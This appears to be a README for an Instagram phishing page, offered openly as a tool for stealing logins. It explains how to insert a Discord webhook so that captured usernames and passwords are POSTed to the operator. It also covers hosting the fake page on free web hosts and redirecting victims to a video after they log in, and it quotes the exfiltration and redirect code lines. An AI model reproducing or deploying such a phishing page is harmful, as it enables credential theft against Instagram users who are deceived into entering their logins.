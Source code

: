 # Instagram Phishing Page

Usage :

- My Instagram phishing page is really easy to use, you only have to replace WEBHOOK on line 101 by your Discord webhook
     > request.open("POST", "Webhook");
- Next you upload it in your website (like netlify or 000webhost, they are free)
- When someone will login you will receive his credentials and he will be redirected to a funny video (the one in the link, you can change it by editing the link and the js part in HTML on line 108).
     > window.location.replace("https://instagram.com/p/CR8V_TNF4gW/");
